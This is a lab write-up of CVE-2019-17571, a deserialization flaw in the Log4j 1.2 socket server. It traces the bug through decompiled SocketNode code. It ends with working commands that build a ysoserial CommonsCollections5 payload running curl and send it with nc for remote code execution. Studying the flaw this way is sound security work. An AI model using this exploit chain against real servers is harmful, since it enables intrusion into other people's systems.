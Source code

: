 # CVE-2019-17571

## Setup

* JankenTestLogServer.jar - Apache Log4j 1.2.X server ( [JankenTestLogServer.jar](/website/assets/files/JankenTestLogServer.jar) )
* [java jdk1.7.0_80](https://files-cdn.liferay.com/mirrors/download.oracle.com/otn-pub/java/jdk/7u80-b15/jdk-7u80-linux-x64.tar.gz)
* [jadx: Java decompiler](https://github.com/skylot/jadx) 
* config.properties - config file with following content

```
log4j.rootLogger=DEBUG, consoleAppender, fileAppender

log4j.appender.consoleAppender=org.apache.log4j.ConsoleAppender
log4j.appender.consoleAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.consoleAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n

log4j.appender.fileAppender=org.apache.log4j.RollingFileAppender
log4j.appender.fileAppender.layout=org.apache.log4j.PatternLayout
log4j.appender.fileAppender.layout.ConversionPattern=[%t] %-5p %c %x - %m%n
log4j.appender.fileAppender.File=demoApplication.log
```


> Running the log4j server. We run it on port `5111` (first argument) with `config.properties` as config file(2nd argument)

```bash

$ java -jar JankenTestLogServer.jar 5111 config.properties # this will run a server on port 5111 listening for socket connection
```

## Finding the bug

Open `JankenTestLogServer.jar` with `jadx` to view the source code. 

![cve-2019-17571-1](/website/assets/images/cve-2019-17571-1.png)

```java
try {
    logger.info("Listening on port " + port);
    ServerSocket serverSocket = new ServerSocket(port);
    while (true) {
        logger.info("Waiting to accept a new client.");
        Socket socket = serverSocket.accept();
        logger.info("Connected to client at " + socket.getInetAddress());
        logger.info("Starting new socket node.");
        new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

The code starts Listening on port provided(5111 in our case) and whenever there is a new connection a new Thread is spawn to fulfil the socket request. The following code is responsible for that:

```java

new Thread(new SocketNode(socket, LogManager.getLoggerRepository()), "JankenTestLogServerApplication-" + port).start();

```

So lets inspect `SocketNode` function. Its imported from `import org.apache.log4j.net.SocketNode;`. Lets open `SocketNode.java`


![cve-2019-17571-2](/website/assets/images/cve-2019-17571-2.png)

```java

 public SocketNode(Socket socket2, LoggerRepository hierarchy2) {
    this.socket = socket2;
    this.hierarchy = hierarchy2;
    try {
        this.ois = new ObjectInputStream(new BufferedInputStream(socket2.getInputStream()));
    } catch (InterruptedIOException e) {
        Thread.currentThread().interrupt();
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e);
    } catch (IOException e2) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e2);
    } catch (RuntimeException e3) {
        logger.error(new StringBuffer().append("Could not open ObjectInputStream to ").append(socket2).toString(), e3);
    }
}	
```

So the Input from socket stream is read directly into `ObjectInputStream` and this is where Deserialization occurs. So we just need to send a serialized rce object and this will get us rce.


## Exploit

```bash
$ tar -xf jdk-7u80-linux-x64.tar.gz
$ ./jdk-7u80-linux-x64/bin/java -jar ysoserial.jar CommonsCollections5 "curl http://localhost:1111/" > haxtest.bin
$ cat haxtest.bin | nc localhost 5111
```

![cve-2019-17571-rce](/website/assets/images/cve-2019-17571-rce.png)


Enjoy the rce



